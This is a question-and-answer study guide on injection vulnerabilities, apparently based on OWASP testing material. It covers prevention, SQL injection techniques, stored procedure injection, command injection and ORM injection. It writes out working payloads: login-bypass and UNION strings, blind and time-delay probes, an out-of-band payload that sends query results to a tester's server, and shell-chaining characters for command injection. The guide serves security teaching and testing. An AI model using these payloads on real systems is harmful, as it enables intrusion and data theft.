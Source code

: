 # Injection

## Links
[OWASP: injection](https://owasp.org/www-project-top-ten/2017/A1_2017-Injection)

[SAST](https://owasp.org/www-community/Source_Code_Analysis_Tools)

[DAST](https://owasp.org/www-community/Vulnerability_Scanning_Tools)

[Testing for SQL Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)

[Testing for Command Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection)

[Testing for ORM Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.7-Testing_for_ORM_Injection)

[Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)

## Questions

<details>
  <summary>What is the injection?</summary>

  It is possible to inject data into almost all sources. Injection flaws occur when an attacker can send hostile data. Injection vulnerabilities are very prevalent, particularly in legacy code. SQL, LDAP, XPath or NoSQL queries, OS commands, XML parsers, SMTP headers, expression languages and ORM queries often are vulnerable to injection. The injection can result in data loss, corruption, disclosure to unauthorized parties, loss of accountability, or denial of access. Also, the injection can sometimes lead to a complete host takeover.

</details>

<details>
  <summary>When is an application is vulnerable?</summary>

  * when user-supplied data is not validated, filtered, or sanitized by the application;

  * when dynamic queries or non-parameterized calls without context-aware escaping are used directly in the interpreter;

  * when using hostile data within object-relational mapping (ORM) search parameters to extract additional, sensitive records;

  * when the SQL or command contains both structure and hostile data in dynamic queries, commands, or stored procedures (directly using).

</details>

<details>
  <summary>How to prevent injection?</summary>

  * Use a safe API, which avoids direct using an interpreter entity or provides a parameterized interface or uses Object Relational Mapping Tools (ORMs);

  * Use a positive serverside input validation;

  * Escape special characters for dynamic queries; 

  * Use LIMIT and other SQL controls within queries to prevent mass disclosure of records in case of SQL injection.

</details>

<details>
  <summary>What tools could help to avoid injection?</summary>

  * Static Application Security Testing (SAST)
  
  * Dynamic Application Security Testing (DAST)

</details>

<details>
  <summary>What are the criteria for secure database access?</summary>

  * secure queries:

  SQL Injection occurs when untrusted user input is dynamically added to a SQL query in an insecure manner, often via basic string concatenation. An attacker can get a foothold on your network by it. The best way of protection is using a programming technique known as query Parameterization. It allows the database to distinguish between code and data.

  * secure configuration:

  It is possible to use a secure database configuration. Need to be sure that security controls are available from the Database Management System and hosting platform is enabled and properly configured.

  * secure authentication:

  Authentication should take place only over a secure channel.

  * secure communication:

  Most DBMS support a set of communications methods - secure and insecure. It is a good practice to use secure communications options.

</details>

<details>
  <summary>What is the ASVS(Application Security Verification Standard)?</summary>

  The ASVS provides a basis for testing web application technical security controls and provides developers with a list of requirements for secure development. The requirements are following objectives in mind:

  * Use as a metric: provide application developers and application owners with a yardstick that allows assessing the degree of trust in your application;

  * Use as guidance: guide security control developers as to what to build into security controls to satisfy application security requirements;

  * Use during procurement: provide a basis for specifying application security verification requirements in contracts.

</details>

<details>
  <summary>What are classes of the SQL injection?</summary>

  Inband(inside): extract data by the same channel as for injection of the SQL code.
  
  Out-of-band(outside): data is retrieved using a different channel.
  
  Inferential or Blind: there is no actual transfer of data, but the tester can reconstruct the information by sending particular requests and observing the resulting behaviour of the DB Server.

</details>

<details>
  <summary>What are SQL injection techniques?</summary>

  It is possible to use five general techniques or their combinations.

  Union Operator: use when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set;

  Boolean: use Boolean condition(s) to verify whether certain conditions are true or false;

  Error based: this technique forces the database to generate an error, giving the attacker or taster information which to refine their injection;

  Out-of-band: the technique used to retrieve data using a different channel;

  Time delay: use database commands to delay answers in conditional queries. It is useful when an application doesn't provide results, outputs or errors to an attacker.

</details>

<details>
  <summary>What are the types of Defenses?</summary>

  Primary Defenses:
  
  1. Use of Prepared Statements (with Parameterized Queries);
  2. Use of Stored Procedures;
  3. Allow-list Input Validation;
  4. Escaping All User Supplied Input.
  
  Additional Defenses:
  
  1. Enforcing Least Privilege;
  2. Performing Allow-list Input Validation as a Secondary.

</details>

<details>
  <summary>What are detection techniques?</summary>

  Firstly need to understand when the application interacts with a DB Server to access some data. Typical examples:

  Authentication forms: if authentication uses a web form, generally, an application will check user credentials;

  Search engines: if the SQL query extracts all relevant records from a database, it will be possible to use submitted string;

  E-Commerce sites: the products and their characteristics are very likely to be stored in a database.

  The tester should check by an input fields list whose values could be used in SQL queries separately.

</details>

<details>
  <summary>What is standard SQL injection testing (Classic SQL injection)?</summary>

  Consider the following SQL query:
  
  `SELECT * FROM Users WHERE Username='$username' AND Password='$password'`

  Suppose we insert the following Username and Password values:

  `$username = 1' or '1' = '1`

  `$password = 1' or '1' = '1`

  The query will be:

  `SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND Password='1' OR '1' = '1'`

  If the values was sent by the GET method and if the domain was `www.example.com`, the request would be:

  `http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1&amp;password=1'%20or%20'1'%20=%20'1`

  After a short analysis, we notice that the query returns a value (or a set of values) because the condition has a successful result (OR 1=1).

  Another example query is the following:

  `SELECT * FROM Users WHERE ((Username='$username') AND (Password=MD5('$password')))`

  The query has two problems: the parentheses and the MD5 hash function. The values could be:

  `$username = 1' or '1' = '1'))/*`

  `$password = foo`

  In this way, we’ll get the following query:

  `SELECT * FROM Users WHERE ((Username='1' or '1' = '1'))/*') AND (Password=MD5('$password')))`

  (Due to the inclusion of a comment delimiter in the $username value the password portion of the query will be ignored.)
  The request URL will be:

  `http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1'))/*&amp;password=foo`

  It may return many values. Sometimes, the authentication code verifies that the number of returned records/results is equal to 1. Could be use next values:

  `$username = 1' or '1' = '1')) LIMIT 1/*`

  `$password = foo`

  In this way, we create a request like the following:

  `http://www.example.com/index.php?username=1'%20or%20'1'%20=%20'1'))%20LIMIT%201/*&amp;password=foo`

</details>

<details>
  <summary>What is standard SQL injection testing (SELECT Statement)?</summary>

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  Consider also the request to a script that executes the query above:

  `http://www.example.com/product.php?id=10`

  When the tester tries a valid value (e.g. 10 in this case), the application will return the description of a product. It is possible to try to use the AND and OR operators.

  Consider the request:

  `http://www.example.com/product.php?id=10 AND 1=2`

  `SELECT * FROM products WHERE id_product=10 AND 1=2`

  In this case, probably the application would return some message telling us there is no content available or a blank page. Then the tester can send a true statement and check if there is a valid result:

  `http://www.example.com/product.php?id=10 AND 1=1`

</details>

<details>
  <summary>What is standard SQL injection testing (Stacked Queries)?</summary>

  If an application uses the DBMS (e.g. PHP + PostgreSQL, ASP+SQL SERVER) will be possible to execute multiple queries in one call.

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  A way to exploit the above scenario would be:

  `http://www.example.com/product.php?id=10; INSERT INTO users (…)`

  This way is possible to execute many queries in a row and independent of the first query.

</details>

<details>
  <summary>How understand what backend database uses?</summary>

  The first way to find out what back end database uses is by observing the error returned by the application. The following are some examples of error messages:

  MySql:

    You have an error in your SQL syntax; check the manual
    that corresponds to your MySQL server version for the
    right syntax to use near '\'' at line 1

  `SELECT id, name FROM users WHERE id=1 UNION SELECT 1, version() limit 1,1`

  Oracle:

    ORA-00933: SQL command not properly ended
    MS SQL Server:
    Microsoft SQL Native Client error ‘80040e14’
    Unclosed quotation mark after the character string

  `SELECT id, name FROM users WHERE id=1 UNION SELECT 1, @@version limit 1, 1`

  PostgreSQL:

    Query failed: ERROR: syntax error at or near
    "’" at character 56 in /www/site/test.php on line 121.

  If there is no error message or a custom error message, the tester can inject it into string fields using varying concatenation techniques.

</details>

<details>
  <summary>How understand what backend database uses (Union Exploitation Technique)?</summary>

  The UNION operator is used in SQL injections to join a query, purposely forged by the tester, to the original one. It allows obtaining values from other tables. Look at the following example:

  `SELECT Name, Phone, Address FROM Users WHERE Id=$id`

  We will set the following $id value:

  `$id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable`

  We will have the following query:

  `SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable`

  The keyword ALL is necessary to get around queries that use the keyword DISTINCT. Moreover, we notice that beyond the credit card numbers, we have selected two other values. They allow avoiding a syntax error.

  The first detail a tester needs to exploit the SQL injection vulnerability using the technique is to find the correct numbers of columns in the SELECT statement.

  The tester can use ORDER BY clause followed by a number indicating the numeration of the column selected:

  `http://www.example.com/product.php?id=10 ORDER BY 10--`

  After the tester finds out the numbers of columns, the next step is to find out the type of columns. Assuming there were three columns in the example above, the tester could try each column type, using the NULL value to help them:

  `http://www.example.com/product.php?id=10 UNION SELECT 1,null,null--`

  If the query fails, the tester will probably see a message like:

    All cells in a column must have the same datatype
    If the query executes with success, the first column can be an integer. Then the tester can move further and so on:

  `http://www.example.com/product.php?id=10 UNION SELECT 1,1,null--`

  After gathering successful information, the application may only show one line of the result because the application treats only the first line. It is possible to use a LIMIT clause or the tester can set an invalid value, making only the second query valid:

  `http://www.example.com/product.php?id=99999 UNION SELECT 1,1,null--`

</details>

<details>
  <summary>How understand what backend database uses (Boolean Exploitation Technique)?</summary>

  The technique is well during blind SQL Injection if the tester cannot get information about a database from an outcome. For example, if a programmer has created a custom error page that does not provide information from a database.

  The method consists of carrying out a series of boolean queries against the server, observing the answers and finally deducing the meaning of such answers. Consider the www.example.com domain and suppose that it contains a parameter named id vulnerable to SQL injection. It means that carrying out the following request:

  `http://www.example.com/index.php?id=1'`

  Suppose that the database query would be:

  `SELECT field1, field2, field3 FROM Users WHERE Id='$Id'`

  The tests that we will execute will allow us to obtain the value of the username field, extracting such value character by character. It is possible to present in practically every database using some standard functions. For our examples:

  * SUBSTRING (text, start, length);
  * ASCII (char);
  * LENGTH (text).

  As an example, we will use the following value for Id:

  `$Id=1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1`

  That creates the following query:

  `SELECT field1, field2, field3 FROM Users WHERE Id='1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1'`

  The previous example returns a result if and only if the first character of the field username is equal to the ASCII value 97. But it could be a problem to understand which way could distinguish tests returning a true value from those that return false. Create the query that always returns true:

  `$Id=1' AND '1' = '2`

  Which will create the following query:

  `SELECT field1, field2, field3 FROM Users WHERE Id='1' AND '1' = '2'`

  It is possible to get length of the field:

  `$Id=1' AND LENGTH(username)=N AND '1' = '1`

  Where N is the number of characters that we have analyzed up to now:

  `SELECT field1, field2, field3 FROM Users WHERE Id='1' AND LENGTH(username)=N AND '1' = '1'`

  The blind SQL injection attack needs a high volume of queries. The tester may need an automatic tool to exploit the vulnerability.

</details>

<details>
  <summary>How understand what backend database uses (Error Based Exploitation Technique)?</summary>

  The technique could be used by a tester when he cannot use one of the other techniques. The point is data extraction from the database by error messages.

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  Consider also the request to a script that executes the query above:

  `http://www.example.com/product.php?id=10`

  The malicious request would be (e.g. Oracle 10g):

  `http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--`

  In this example, the tester is concatenating the value 10 with the result of the function UTL_INADDR.GET_HOST_NAME. This Oracle function will try to return the hostname of the parameter passed to it, which is another query, the name of the user. When the database looks for a hostname with the user database name, it will fail and return an error message like:

  `ORA-292257: host SCOTT unknown`

  Then the tester can manipulate the parameter passed to GET_HOST_NAME() function and the result will be shown in the error message.

</details>

<details>
  <summary>How understand what backend database uses (Out of Band Exploitation Technique)?</summary>

  The technique consists of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester’s server.

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  Consider also the request to a script that executes the query above:

  `http://www.example.com/product.php?id=10`

  The malicious request would be:

  `http://www.example.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT user FROM DUAL)--`

  UTL_HTTP.request function will try to connect to the fake server and make an HTTP GET request containing the return from the query: SELECT user FROM DUAL.

</details>

<details>
  <summary>How understand what backend database uses (Time Delay Exploitation Technique)?</summary>

  The technique consists in sending an injected query. If the conditional was true, the tester would monitor the server response time. 

  Consider the following SQL query:

  `SELECT * FROM products WHERE id_product=$id_product`

  Consider also the request to a script that executes the query above:

  `http://www.example.com/product.php?id=10`

  The malicious request would be (e.g. MySql 5.x):

  `http://www.example.com/product.php?id=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--`

  In this example the tester checks whether the MySql version is 5.x or not, making the server sleep for 10 seconds. The tester can increase the delay time and monitor the responses.

</details>

<details>
  <summary>What is a stored procedure injection?</summary>

  When using dynamic SQL within a stored procedure, the application must properly sanitize the user input to eliminate the risk of code injection. If not sanitized, the user could enter malicious SQL that will be executed within the stored procedure.
  
  Consider the following SQL Server Stored Procedure:
  
    Create procedure user_login @username varchar(20), @passwd varchar(20)
    As
    Declare @sqlstring varchar(250)
    Set @sqlstring  = ‘
    Select 1 from users
    Where username = ‘ + @username + ‘ and passwd = ‘ + @passwd
    exec(@sqlstring)
    Go
  
  User input:
  
  `anyusername or 1=1'`
  
  `anypassword`
  
  This procedure does not sanitize the input and allow the return value to show an existing record with these parameters.

</details>

<details>
  <summary>What is OS command injection?</summary>

  OS command injection is a technique used via a web interface to execute OS commands on a web server. Any web interface that does not sanitize data is subject to this exploit.

</details>

<details>
  <summary>How to test command injection?</summary>

  When viewing a file in a web application, often the filename is in the URL. Perl allows piping data from a process into an open statement. The user can append the Pipe symbol | onto the end of the filename.

  Example URL before alteration:

  `http://sensitive/cgi-bin/userData.pl?doc=user1.txt`

  Example URL modified:

  `http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|`

  It would execute the command /bin/ls.

</details>

<details>
  <summary>What special characters are possible to use for command injection?</summary>

  The following special character can be used for command injection such as | ; & $ > < ' !

  * cmd1|cmd2 : Uses of | will make command 2 to be executed weather command 1 execution is successful or not.
  * cmd1;cmd2 : Uses of ; will make command 2 to be executed weather command 1 execution is successful or not.
  * cmd1||cmd2 : Command 2 will only be executed if command 1 execution fails.
  * cmd1&&cmd2 : Command 2 will only be executed if command 1 execution succeeds.
  * $(cmd) : For example, echo $(whoami) or $(touch test.sh; echo 'ls' > test.sh)
  * cmd : It’s used to execute specific command. For example, whoami
  * >(cmd): >(ls)
  * <(cmd): <(ls)

</details>

<details>
  <summary>What is ORM injection?</summary>

  Object-relational mapping (ORM) Injection use SQL Injection in ORM generated data access object model.

</details>

<details>
  <summary>How to test ORM injection?</summary>

  ORM layers can be prone to vulnerabilities as they extend the surface of the attack. Instead of directly targeting the application with SQL queries, you’d be focusing on abusing the ORM layer to send malicious SQL queries.

</details>
